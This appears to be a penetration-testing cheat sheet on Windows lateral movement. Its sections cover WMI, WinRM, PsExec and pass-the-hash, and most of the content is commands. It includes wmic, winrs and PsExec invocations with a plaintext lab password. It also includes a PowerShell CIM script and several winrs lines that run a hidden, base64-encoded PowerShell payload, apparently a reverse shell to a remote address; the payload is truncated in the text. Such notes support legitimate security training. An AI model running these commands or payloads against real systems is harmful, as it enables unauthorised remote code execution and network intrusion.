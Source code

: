 <a name="wmi-and-winrm"></a>
## WMI and WinRM
> To create a process on the remote target via WMI, we need the credentials of a member of the Administrators local group, which can also be a domain user.

`C:\> wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"`

	$username = 'jen';
	$password = 'Nexus123!';
	$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
	$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
	$Options = New-CimSessionOption -Protocol DCOM
	$Session = New-Cimsession -ComputerName 192.168.100.100 -Credential $credential -SessionOption $Options
	$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
	HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
	Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};


`C:\> winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"`
`C:\> winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"`

> winrm through Powershell

	$username = 'jen';
	$password = 'Nexus123!';
	$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
	$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
	New-PSSession -ComputerName 192.168.50.73 -Credential $credential
	Enter-PSSession 1
	whoami
	hostname
	
`C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF MAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD... HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"`

<a name="psexec"></a>
## PsExec 
> Three requisites must be met. First, the user that authenticates to the target machine needs to be part of the Administrators local group. Second, the ADMIN$ share must be available, and third, File and Printer Sharing has to be turned on

`PS C:\> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd`

<a name="pass-the-hash"></a>
## Pass the Hash
> First, it requires an SMB connection through the firewall (commonly port 445), and second, the Windows File and Printer Sharing feature to be enabled. These requirements are common in internal enterprise environments.
